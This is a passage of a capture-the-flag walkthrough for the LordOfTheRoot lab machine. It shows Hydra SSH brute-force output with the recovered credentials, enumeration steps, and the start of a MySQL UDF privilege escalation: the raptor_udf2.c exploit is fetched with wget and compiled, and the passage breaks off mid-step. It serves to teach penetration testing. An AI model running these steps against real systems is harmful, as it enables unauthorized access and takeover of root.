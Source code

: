 	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 04:16:37
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 40 login tries (l:5/p:8), ~3 tries per task
	[DATA] attacking ssh://192.168.236.10:22/
	[22][ssh] host: 192.168.236.10   login: smeagol   password: MyPreciousR00t
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-25 04:16:43
	```
	- smeagol:MyPreciousR00t
2. Access SSH w/ smeagol:MyPreciousR00t
	![](images/Pasted%20image%2020220125041805.png)

# Privilege Escalation 
## Root - Via MySQL running as Root
1. Linpeas
	![](images/Pasted%20image%2020220125042356.png)
2. Check ASLR
	```
	smeagol@LordOfTheRoot:/SECRET/door1$ cat /proc/sys/kernel/randomize_va_space
	2
	```
	- ASLR is enabled, hard/unable to do BOF
3. Check system processes running as root
	```
	smeagol@LordOfTheRoot:/SECRET/door1$ ps aux | grep root
	...
	root      1183  0.0  0.8 327004  8748 ?        Ssl  16:31   0:11 /usr/sbin/mysqld
	...
	```
	![](images/Pasted%20image%2020220125050305.png)
	- `mysqld` running as root
4. Find SQL Credentials
	```
	smeagol@LordOfTheRoot:/var/www$ grep -Rnw $(pwd)/*/* -ie "sql" --color=always 2>/dev/null
	
	/var/www/978345210/login.php:19:		$sql="select username, password from Users where username='".$username."' AND password='".$password."';";
	/var/www/978345210/login.php:20:		//echo $sql;
	/var/www/978345210/login.php:21:    
	```
	- `/var/www/978345210/login.php`
5. View `login.php`
	![](images/Pasted%20image%2020220125050453.png)
	- root:darkshadow
6. Access mysql w/ root:darkshadow
7. MySQL running as root exploit
	- https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c
	- https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
8. Exploit
	1. Download `raptor_udf2.c`
		```
		wget https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c
		```
	1. Compile `raptor_udf2.c`
		```
		smeagol@LordOfTheRoot:/tmp$ gcc -g -c raptor_udf2.c
		smeagol@LordOfTheRoot:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc